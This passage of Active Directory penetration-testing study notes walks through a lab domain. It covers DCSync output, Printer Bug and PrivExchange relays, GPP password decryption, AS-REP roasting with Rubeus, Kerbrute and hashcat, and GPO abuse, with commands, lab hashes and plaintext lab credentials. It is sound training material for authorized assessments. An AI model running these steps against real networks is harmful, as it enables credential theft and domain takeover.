[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 10/27/2021 8:14:34 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 16e26ba33e455a8c338142af8d89ffbc
    ntlm- 0: 16e26ba33e455a8c338142af8d89ffbc
    lm  - 0: 4562458c201a97fa19365ce901513c21
```

## Miscellaneous Misconfigurations

### Exchange Related Group Membership

A default installation of Microsoft Exchange within an AD environment opens up many attack vectors, as Exchange is often granted considerable privileges within the domain. The group Exchange Windows Permissions is not listed as a protected group, but members are granted the ability to write a DACL to the domain object. This can be leveraged to give a user DCSync privileges. An attacker can add accounts to this group by leveraging a DACL misconfig or by leveraging a compromised account that is a member of the Account Operators group. It is common to find user accounts and even computer as members of this group. Power users and support staff in remote offices are often added to this group, allowing them to reset passwords. Read [this](https://github.com/gdedrouas/Exchange-AD-Privesc).

The Exchange group Organization Management is another extremely powerful group and can access the mailboxes of all domain users. It is not uncommon for sysadmins to be members of this group. This group also has full control of the OU called Microsoft Exchange Security Groups, which contains the group Exchange Windows Permissions.



If you can compromise an Exchange server, this will often lead to Domain Admin privileges. Additionally, dumping credentials in memory from an Exchange server will produce 10s if not 100s of cleartext credentials or NTLM hashes. This is often due to users logging in to Outlook Web Access and Exchange caching their credentials in memory after a successful login.

### PrivExchange

The PrivExchange attack results from a flaw in the Exchange Server PushSubscription feature, which allows any domain user with a mailbox to force the Exchange server to authenticate to any host provided by the client over HTTP.

The Exchange service runs as SYSTEM and is over-privileged by default. This flaw can be leveraged to relay to LDAP and dump the domain NDTS database. If you cannot relay to LDAP, this can be leveraged to relay and authenticate to other hosts within the domain. This attack will take you directly to Domain Admin with any authenticated domain user account.

### Printer Bug

The Printer Bug is a flaw in the MS-RPRN protocol. This protocol defines the communication of print job processing and print system management between a client and a print server. To leverage this flaw, any domain user can connect to the spool's named pipe with the ```RpcOpenPrinter``` method and use the ```RpcRemoteFindFirstPrinterChangeNotificationEx``` method, and force the server to authenticate to any host provided by the client over SMB.

The spooler service runs as SYSTEM and installed by default in Windows servers running Desktop Experience. This attack can be leveraged to relay to LDAP and granz your attacker account DCSync privileges to retrieve all password hashes from AD.

The attack can also be used to relay LDAP authentication and grant Resource-Based Constrained Delegation (_RBCD_) privileges for the victim to a computer account under your control, thus giving the attacker privileges to authenticate as any user on the victim's computer. This attack can be leveraged to compromise a DC in a partner domain/forest, provided you have administrative access to a DC in the first forest/domain already, and the trust allows TGT delegation, which is not by default anymore.

You can use tools such as the Get-SpoolStatus module from [this](http://web.archive.org/web/20200919080216/https://github.com/cube0x0/Security-Assessment) tool or [this](https://github.com/NotMedic/NetNTLMtoSilverTicket) tool to check for machines vulnerable to the Printer Bug. This flaw can be used to compromise a host in another forest that has Unconstrained Delegation enabled, such as a DC. It can help you attack across forest trusts once you have compromised one forest.

```powershell
PS C:\htb> Import-Module .\SecurityAssessment.ps1
PS C:\htb> Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

ComputerName                        Status
------------                        ------
ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL   True
```

### MS14-068

This was a flaw in the Kerberos protocol, which could be leveraged along with standard domain user credentials to elevate privileges to Domain Admin. A Kerberos ticket contains information about a user, including the account name, ID, and group membership in the Privilege Attribute Certificate (_PAC_). The PAC is signed by the KDC using secret keys to validate that the PAC has not been tampered with after creation.

The vuln allowed a forged PAC to be accepted by the KDC as legitimate. This can be leveraged to create a fake PAC, presenting a user as a member of the Domain Administrators or other privileged group. It can be exploited with tools such as the [Python Kerberos Exploitation Kit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) or the Impacket toolkit. The only defense against this attack is patching.

### Sniffing LDAP Credentials

Many applications and printers store LDAP credentials in their web admin console to connect to the domain. These consoles are often left with weak or default passwords. Sometimes, these credentials can be viewed in cleartext. Other times, the application has a "test connection" function that you can use to gather credentials by changing the LDAP IP address to that of your attack host and setting up a netcat listener on LDAP port 389. When the device attempts to test the LDAP conncetion, it will send the credentials to your machine, often in cleartext. Accounts used for LDAP connections are often privileged,but if not, this could serve as an initial foothold in the domain. Other times, a full LDAP server is required to pull off this attack.

### Enumerating DNS Records

You can use a tool such as [adidnsdump](https://github.com/dirkjanm/adidnsdump) to enumerate all DNS records in a domain using a valid domain user account. This is especially helpful if the naming convention for hosts returned to you in your enumeration using tools such as BloodHound is similar to ```SRV01934.INLANEFREIGHT.LOCAL```. If all servers and workstations have a non-descriptive name, it makes it difficult for you to know what exactly to attack. If you can access DNS entries in AD, you can potentially discover interesting DNS records that point to this same server, such as ```JENKINS.INLANEFREIGHT.LOCAL```, which you can use to better plan out your attacks.

The tools works because, by default, all users can list the child object of a DNS zone in an AD environment. By default, querying DNS records using LDAP does not return all results. So by using the adidnsdump tool, you can resolve all records in the zone and potentially find something useful for you engagement. The background and more in-depth explanation [here](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/).

On the first run of the tool, you can see that some records are blank, namely ```?,LOGISTICS,?```.

```bash
d41y@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 

Password: 

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 27 records

d41y@htb[/htb]$ head records.csv 

type,name,value
?,LOGISTICS,?
AAAA,ForestDnsZones,dead:beef::7442:c49d:e1d7:2691
AAAA,ForestDnsZones,dead:beef::231
A,ForestDnsZones,10.129.202.29
A,ForestDnsZones,172.16.5.240
A,ForestDnsZones,172.16.5.5
AAAA,DomainDnsZones,dead:beef::7442:c49d:e1d7:2691
AAAA,DomainDnsZones,dead:beef::231
A,DomainDnsZones,10.129.202.29
```

If you run again with the ```-r``` flag the tool will attempt to resolve unknown records by performing an ```A``` query. Now you can see that an IP address of 172.16.5.240 showed up for LOGISTICS. While this is a small example, it is worth running this tool in larger environments. You may uncover "hidden" records that can lead to discovering interesting hosts.

```bash
d41y@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r

Password: 

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 27 records

d41y@htb[/htb]$ head records.csv 

type,name,value
A,LOGISTICS,172.16.5.240
AAAA,ForestDnsZones,dead:beef::7442:c49d:e1d7:2691
AAAA,ForestDnsZones,dead:beef::231
A,ForestDnsZones,10.129.202.29
A,ForestDnsZones,172.16.5.240
A,ForestDnsZones,172.16.5.5
AAAA,DomainDnsZones,dead:beef::7442:c49d:e1d7:2691
AAAA,DomainDnsZones,dead:beef::231
A,DomainDnsZones,10.129.202.29
```

### Password in Description Field

Sensitive information such as account passwords are sometimes found in the user account Description or Notes fields and can be quickly enumerated using PowerView. For large domains, it is helpful to export this data to a CSV file to review offline.

```powershell
PS C:\htb> Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}

samaccountname description
-------------- -----------
administrator  Built-in account for administering the computer/domain
guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
ldap.agent     *** DO NOT CHANGE ***  3/12/2012: Sunsh1ne4All!
```

### PASSWD_NOTREQD Field

It is possible to come across domain accounts with the passwd_notreqd field set in the userAccountControl attribute. If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all. A password may be set as blank intentionally or accidentally hitting enter before entering a password when changing it via the command line. Just because this flag is set on an account, it doesn't mean that no password is set, just that one may not be required. There are many reasons why this flag may be set on a user account, one being that a vendor product set this flag on certain accounts at the time of installation and never removed the flag post-install. It is wort enumerating accounts with this flag set and testing each to see if no password is required. Also, include it in the client report if the goal of the assessment is to be as comprehensive as possible.

```powershell
PS C:\htb> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

samaccountname                                                         useraccountcontrol
--------------                                                         ------------------
guest                ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
mlowe                                PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
ehamilton                            PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
$725000-9jb50uejje9f                       ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT
nagiosagent                                                PASSWD_NOTREQD, NORMAL_ACCOUNT
```

### Credentials in SMB Shares and SYSVOL Scripts

The SYSVOL share can be a treasure trove of data, especially in large organizations. You may find many different batch, VBScript, and PowerShell scripts within the scripts directory, which is readable by all authenticated users in the domain. It is worth digging around this directory to hunt for passwords stored in scripts. Sometimes you will find very old scripts containing since disabled accounts or old passwords, but from time to time, you will strike gold, so you should always dig through this directory. Here, you can see an interesting script named ```reset_local_admin_pass.vbs```.

```powershell
PS C:\htb> ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts

    Directory: \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts


Mode                LastWriteTime         Length Name                                                                 
----                -------------         ------ ----                                                                 
-a----       11/18/2021  10:44 AM            174 daily-runs.zip                                                       
-a----        2/28/2022   9:11 PM            203 disable-nbtns.ps1                                                    
-a----         3/7/2022   9:41 AM         144138 Logon Banner.htm                                                     
-a----         3/8/2022   2:56 PM            979 reset_local_admin_pass.vbs  
```

Taking a closer look at the script, you see that it contains a password for the built-in local administrator on Windows hosts. In this case, it would be worth checking to see if this password is still set on any hosts in the domain. You could do this using CME and the ```--local-auth``` flag.

```powershell
PS C:\htb> cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs

On Error Resume Next
strComputer = "."
 
Set oShell = CreateObject("WScript.Shell") 
sUser = "Administrator"
sPwd = "!ILFREIGHT_L0cALADmin!"
 
Set Arg = WScript.Arguments
If  Arg.Count > 0 Then
sPwd = Arg(0) 'Pass the password as parameter to the script
End if
 
'Get the administrator name
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")

<SNIP>
```

### Group Policy Preference (_GPP_) Passwords

When a new group is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives
- Create local users
- Create printer config files
- Creating and updating services
- Creating scheduled tasks
- Changing local admin passwords

These files can contain an array of configuration data and defined passwords. The ```cpassword``` attribute value is AES-256 bit encrypted, but Microsoft published the [AES private key on MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN), which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this DC share.

This was patched in 2014 MS14-025 "Vulnerability in GPP could allow elevation of privilege", to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.

The XML looks like the following:



If you retrieve the cpassword value more manually, the ```gpp-decrypt``` utility can be used to decrypt the password as follows:

```bash
d41y@htb[/htb]$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE

Password1
```

GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1), the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value. CME also has two modules for locating and retrieving GPP passwords. One quick tip to consider during engagements: Often, GPP passwords are defined for legacy accounts, and you may therefore retrieve and decrypt the password for a locked or deleted account. However, it is worth attempting to password spray internally with this password. Password re-use is widespread, and the GPP password combined with password spraying could result in further access.

```bash
d41y@htb[/htb]$ crackmapexec smb -L | grep gpp

[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
```

It is also possible to find passwords in files such as Registry.xml when autologon is configured via Group Policy. This may be set up for any number of reasons for a machine to automatically log in at boot. If this is set via Group Policy and not locally on the host, then anyone on the domain can retrieve credentials stored in the Registry.xml file created for this purpose. This is a separate issue from GPP passwords as Microsoft has not taken any action to block storing these credentials on the SYSVOL in cleartext and, hence, are readable by any authenticated user in the domain. You can hunt for this using CME with the gpp_autologin module, or using the Get-GPPAutologon.ps1 script included in PowerSploit.

```bash
d41y@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found SYSVOL share
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Searching for Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Found INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found credentials in INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```

In the output above, you can see that you have retrieved the credentials for an account called guarddesk. This may have been set up so that shared workstations used by guards automatically log in at boot to accommodate multiple users throughout the day and night working different shifts. In this case, the credentials are likely a local admin, so it would be worth finding hosts where you can log in as admin and hunt for additional data. Sometimes you may discover credentials for a highly privileged user or credentials for a disabled account/an expired password that is no use to you.

### ASREPRoasting

It's possible to obtain the TGT for any account that has the "Do not require Kerberos pre-authentication" setting enabled. Many vendor installation guides specify that their service account be configured in this way. The authentication service reply (_AS\_REP_) is encrypted with the account's password, and any domain user can request it.

With pre-authentication, a user enters their password, which encrypts a time stamp. The DC will decrypt this to validate that the correct password was used. If successful, a TGT will be issued to the user for further authentication requests in the domain. If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the DC. This can be subjected to an offline password attack using a tool such as Hashcat or John.



ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. This setting can be enumerated with PowerView or built-in tools such as the PowerShell AD module.

The attack itself can be performed with the Rubeus toolkit and other tools to obtain the ticket for the target account. If an attacker has GenericWrite or GenericAll permissions over an account, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling the attribute again. Like Kerberoasting, the success of this attack depends on the account having a relatively weak password.

Below is an example of the attack. PowerView can be used to enumerate users with their UAC value set to ```DONT_REQ_PREAUTH```.

```powershell
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

With this information in hand, the Rubeus tool can be leveraged to retrieve the AS-REP in the proper format for offline hash cracking. This attack does not require any domain user context and can be done by just knowing the SAM name for the user without Kerberos pre-auth.

```powershell
PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: AS-REP roasting

[*] Target User            : mmorgan
[*] Target Domain          : INLANEFREIGHT.LOCAL

[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=mmorgan))'
[*] SamAccountName         : mmorgan
[*] DistinguishedName      : CN=Matthew Morgan,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] Using domain controller: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL (172.16.5.5)
[*] Building AS-REQ (w/o preauth) for: 'INLANEFREIGHT.LOCAL\mmorgan'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:
     $krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:D18650F4F4E0537E0188A6897A478C55$0978822DEC13046712DB7DC03F6C4DE059A946485451AAE98BB93DFF8E3E64F3AA5614160F21A029C2B9437CB16E5E9DA4A2870FEC0596B09BADA989D1F8057262EA40840E8D0F20313B4E9A40FA5E4F987FF404313227A7BFFAE748E07201369D48ABB4727DFE1A9F09D50D7EE3AA5C13E4433E0F9217533EE0E74B02EB8907E13A208340728F794ED5103CB3E5C7915BF2F449AFDA41988FF48A356BF2BE680A25931A8746A99AD3E757BFE097B852F72CEAE1B74720C011CFF7EC94CBB6456982F14DA17213B3B27DFA1AD4C7B5C7120DB0D70763549E5144F1F5EE2AC71DDFC4DCA9D25D39737DC83B6BC60E0A0054FC0FD2B2B48B25C6CA
```

You can then crack the hash offline using Hashcat with mode 18200.

```bash
d41y@htb[/htb]$ hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 

hashcat (v6.1.1) starting...

<SNIP>

$krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:d18650f4f4e0537e0188a6897a478c55$0978822dec13046712db7dc03f6c4de059a946485451aae98bb93dff8e3e64f3aa5614160f21a029c2b9437cb16e5e9da4a2870fec0596b09bada989d1f8057262ea40840e8d0f20313b4e9a40fa5e4f987ff404313227a7bffae748e07201369d48abb4727dfe1a9f09d50d7ee3aa5c13e4433e0f9217533ee0e74b02eb8907e13a208340728f794ed5103cb3e5c7915bf2f449afda41988ff48a356bf2be680a25931a8746a99ad3e757bfe097b852f72ceae1b74720c011cff7ec94cbb6456982f14da17213b3b27dfa1ad4c7b5c7120db0d70763549e5144f1f5ee2ac71ddfc4dca9d25d39737dc83b6bc60e0a0054fc0fd2b2b48b25c6ca:Welcome!00
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:d18650f4f...25c6ca
Time.Started.....: Fri Apr  1 13:18:40 2022 (14 secs)
Time.Estimated...: Fri Apr  1 13:18:54 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   782.4 kH/s (4.95ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10506240/14344385 (73.24%)
Rejected.........: 0/10506240 (0.00%)
Restore.Point....: 10493952/14344385 (73.16%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: WellHelloNow -> W14233LTKM

Started: Fri Apr  1 13:18:37 2022
Stopped: Fri Apr  1 13:18:55 2022
```

When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-auth.

```bash
d41y@htb[/htb]$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 04/01/22 - Ronnie Flathers @ropnop

2022/04/01 13:14:17 >  Using KDC(s):
2022/04/01 13:14:17 >  	172.16.5.5:88

2022/04/01 13:14:17 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 tjohnson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 jwilson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 bdavis@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 njohnson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 asanchez@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 dlewis@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 ccruz@inlanefreight.local
2022/04/01 13:14:17 >  [+] mmorgan has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:400d306dda575be3d429aad39ec68a33$8698ee566cde591a7ddd1782db6f7ed8531e266befed4856b9fcbbdda83a0c9c5ae4217b9a43d322ef35a6a22ab4cbc86e55a1fa122a9f5cb22596084d6198454f1df2662cb00f513d8dc3b8e462b51e8431435b92c87d200da7065157a6b24ec5bc0090e7cf778ae036c6781cc7b94492e031a9c076067afc434aa98e831e6b3bff26f52498279a833b04170b7a4e7583a71299965c48a918e5d72b5c4e9b2ccb9cf7d793ef322047127f01fd32bf6e3bb5053ce9a4bf82c53716b1cee8f2855ed69c3b92098b255cc1c5cad5cd1a09303d83e60e3a03abee0a1bb5152192f3134de1c0b73246b00f8ef06c792626fd2be6ca7af52ac4453e6a

<SNIP>
```

With a valid list of users, you can use Get-NPUsers.py from the Impacket toolkit to hunt for all users with Kerberos pre-auth not required. The tool will retrieve the AS-REP in Hashcat format for offline cracking for any found. You can also feed a wordlist into the tool, it will throw errors for users that do not exist, but if it finds any valid ones without Kerberos pre-auth, then it can be a nice way to obtain a foothold or further your access, depending on where you are in the course of your assessment. Even if you are unable to crack the AS-REP using Hashcat it is still good to report this as a finding to clients so thex can assess whether or not the account requires this setting.

```bash
d41y@htb[/htb]$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[-] User sbrown@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jjones@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tjohnson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jwilson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bdavis@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User njohnson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User asanchez@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dlewis@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ccruz@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$mmorgan@inlanefreight.local@INLANEFREIGHT.LOCAL:47e0d517f2a5815da8345dd9247a0e3d$b62d45bc3c0f4c306402a205ebdbbc623d77ad016e657337630c70f651451400329545fb634c9d329ed024ef145bdc2afd4af498b2f0092766effe6ae12b3c3beac28e6ded0b542e85d3fe52467945d98a722cb52e2b37325a53829ecf127d10ee98f8a583d7912e6ae3c702b946b65153bac16c97b7f8f2d4c2811b7feba92d8bd99cdeacc8114289573ef225f7c2913647db68aafc43a1c98aa032c123b2c9db06d49229c9de94b4b476733a5f3dc5cc1bd7a9a34c18948edf8c9c124c52a36b71d2b1ed40e081abbfee564da3a0ebc734781fdae75d3882f3d1d68afdb2ccb135028d70d1aa3c0883165b3321e7a1c5c8d7c215f12da8bba9
[-] User rramirez@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jwallace@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jsantiago@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set

<SNIP>
```

### Group Policy Object (_GPO_) Abuse

Group policy provides administrators with many advanced settings that can be applied to both user and computer objects in an AD environment. Group policy, when used right, is an excellent tool for hardening an AD environment by configuring user settings, OS, and applications. Group policy can also be abused by attackers. If you can gain rights over a Group Policy Object via an ACL misconfig, you could leverage this for lateral movement, privesc, domain compromise, and even as a persistence mechanism within the domain. Understanding how to enumerate and attack GPOs can give you a leg up and can sometimes be the ticket to achieving your goal in a rather locked-down environment.

GPO misconfigs can be abused to perform the following attacks:

- Adding additional rights to a user
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform a number of actions

You can enumerate GPO information using many tools such as PowerView and BloodHound. You can also use [groupr3](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastel](https://www.pingcastle.com/), among others, to audit the security of GPOs in a domain.

Using the Get-DomainGPO function from PowerView, you can get a listing of GPOs by name.

```powershell
PS C:\htb> Get-DomainGPO |select displayname

displayname
-----------
Default Domain Policy
Default Domain Controllers Policy
Deny Control Panel Access
Disallow LM Hash
Deny CMD Access
Disable Forced Restarts
Block Removable Media
Disable Guest Account
Service Accounts Password Policy
Logon Banner
Disconnect Idle RDP
Disable NetBIOS
AutoLogon
GuardAutoLogon
Certificate Services
```

This can be helpful for you to begin to see what types of security measures are in place. You can see that autologon is in use which may mean there is a readable password in a GPO, and see that AD CS is present in the domain. If Group Policy Management Tools are installed on the host you are working from, you can use various built-in GroupPolicy cmdlets such as Get-GPO to perform the same enumeration.

```powershell
PS C:\htb> Get-GPO -All | Select DisplayName

DisplayName
-----------
Certificate Services
Default Domain Policy
Disable NetBIOS
Disable Guest Account
AutoLogon
Default Domain Controllers Policy
Disconnect Idle RDP
Disallow LM Hash
Deny CMD Access
Block Removable Media
GuardAutoLogon
Service Accounts Password Policy
Logon Banner
Disable Forced Restarts
Deny Control Panel Access
```

Next, you can check if a user you can control has any rights over a GPO. Specific users or groups may be granted rights to administer one or more GPOs. A good first check is to see if the entire Domain Users group has any rights over one or more GPOs.

```powershell
PS C:\htb> $sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}

ObjectDN              : CN={7CA9C789-14CE-46E3-A722-83F4097AF532},CN=Policies,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID             :
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, Delete, GenericExecute, WriteDacl,
                        WriteOwner
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 983095
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-513
AceType               : AccessAllowed
AceFlags              : ObjectInherit, ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit, ObjectInherit
PropagationFlags      : None
AuditFlags            : None
```

Here you can see that the Domain Users group has various permissions over a GPO, such as WriteProperty and WriteDacl, which you could change to give yourself full control over the GPO and pull of any number of attacks that would be pushed down to any users and computers in OUs that the GPO is applied to. You can use the GPO GUID combined with Get-GPO to see the display name of the GPO.

```powershell
PS C:\htb Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532

DisplayName      : Disconnect Idle RDP
DomainName       : INLANEFREIGHT.LOCAL
Owner            : INLANEFREIGHT\Domain Admins
Id               : 7ca9c789-14ce-46e3-a722-83f4097af532
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 10/28/2021 3:34:07 PM
ModificationTime : 4/5/2022 6:54:25 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

Checking in BloodHound, you can see that the Domain Users group has several rights over the "Disconnect Idle RDP" GPO, which could be leveraged for full control of the object.


If you select the GPO in BloodHound and scroll down to "Affected Objects" on the "Node Info" tab, you can see that this GPO is applied to one OU, which contains four computer objects.



You could use a tool such as [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to take advantage of this GPO misconfig by performing actions such as adding a user that you control to the local admins group on one of the affected hosts, creating an immediate scheduled task on one of the hosts to give you a reverse shell, or configure a malicious computer startup script to provide you with a reverse shell or similar. When using a tool like this, you need to be careful because commands can be run that affect every computer within the OU that the GPO is linked to. If you found an editable GPO that applies to an OU with 1,000 computers, you would not want to make the mistake of adding yourself as a local admin to that many hosts. Some of the attack options available with this tool allow you to specify a target user or host. The hosts shown in the above image are not exploitable.